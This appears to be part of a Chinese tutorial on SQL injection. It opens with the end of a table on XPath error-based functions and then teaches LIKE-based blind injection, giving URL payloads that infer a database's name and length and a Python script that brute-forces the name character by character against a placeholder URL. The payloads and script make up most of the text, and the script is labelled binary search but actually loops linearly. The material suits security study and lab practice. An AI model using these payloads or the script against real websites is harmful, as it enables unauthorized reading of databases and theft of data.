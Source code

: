 | XPath             | extractvalue updatexml                                       | [5.1.5, ?)      | ✔️     | ✔️     | ✔️     | ✔️    | 32           |                   |                     |



### LIKE 注入



在LIKE子句中，百分比(%)通配符允许**匹配任何字符串的零个或多个字符**。下划线 `_` 通配符允许**匹配任何单个字符**。**匹配成功则返回1，反之返回0**，可用于sql盲注。



1. 判断数据库长度



可用length()函数，也可用`_`，如：



```sql
/?id=' or database() like '________'--+  // 回显正常
```



1. 判断数据库名



```sql
/?id=' or database() like 's%' --+
/?id=' or (select database()) like 's%' --+
或者:
/?id=' or database() like 's_______' --+
/?id=' or (select database()) like 's_______' --+
```



如上图所示，回显正常，说明数据库名的第一个字符是s。



综上所述，很明显和普通的布尔盲注差不多，于是写个GET的二分法盲注脚本：



```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/?id="

payload = "' or (select database()) like '{}%'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
```
